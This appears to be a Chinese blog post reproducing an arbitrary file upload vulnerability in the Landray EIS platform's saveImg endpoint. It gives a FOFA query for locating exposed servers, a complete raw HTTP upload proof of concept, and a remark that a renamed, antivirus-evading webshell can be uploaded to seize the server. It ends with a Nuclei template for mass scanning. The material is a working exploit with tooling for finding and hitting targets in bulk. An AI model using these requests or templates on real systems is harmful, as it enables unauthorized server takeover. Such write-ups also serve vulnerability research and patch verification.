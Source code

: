 # 原创
：  漏洞复现--蓝凌EIS智慧协同平台任意文件上传

# 漏洞复现--蓝凌EIS智慧协同平台任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

蓝凌EIS是蓝凌18年中大客户办公应用与阿里钉钉相融合的一款功能全、体验好、开通即用、配置灵活、软硬一体的租赁版OA系统。该系统saveImg存在任意文件上传。

### 二：漏洞影响版本

未知

### 三：网络空间测绘查询

fofa:<br/> `icon_hash="953405444"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2f6e82efcde629b2fd8b30e72df769a2.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4c69d57de538b0fdcfbb4bf6dae8d880.jpeg"/><br/> POC:

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 197
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxdgaqmqu

------WebKitFormBoundaryxdgaqmqu
Content-Disposition: form-data; name="file"filename="hello.txt"
Content-Type: text/html

hellohello
------WebKitFormBoundaryxdgaqmqu--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4e1b1a5cda8286d878bfd86ca27587a4.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e650b6a2416b672718cb764bb80f348a.jpeg"/>

### 五：漏洞利用

可更改后缀上传免杀脚本木马获取服务器权限<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/53f4f7250aa9fd97e6d0f7ba0ea67174.jpeg"/>

### 六：批量检测

```
id: landray-eis-saveimg-fileupload

info:
  name: 蓝凌eis智慧协同平台任意文件上传
  author: fgz
  severity: critical
  tags: landray,fileupload
  description: |
    蓝凌eis智慧协同平台是由深圳市微达软件有限公司开发的用于企业在知识，协同，项目管理等场景的OA系统。其存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。
  metadata:
    max-request: 3
    fofa-query: icon_hash="953405444"
    hunter-query:
    verified: true

variables:
  file_name: "{{to_lower(rand_text_alpha(8))}}.txt"
  file_content: "{{to_lower(rand_text_alpha(26))}}"

http:
  - raw:
      - |
        POST /eis/service/api.aspx?action=saveImg HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxdgaqmqu

        ------WebKitFormBoundaryxdgaqmqu
        Content-Disposition: form-data; name="file"filename="{{file_name}}"
        Content-Type: text/html
        
        {{file_content}}
        ------WebKitFormBoundaryxdgaqmqu--
          
      - |
        GET {{file_name2}} HTTP/1.1
        Host: {{Hostname}}

    req-condition: true
    extractors:
      - type: kval
        name: file_name2
        internal: true
        kval:
          - body
    matchers:
      - type: word
        words:
          - "{{file_content}}"
        part: body

```
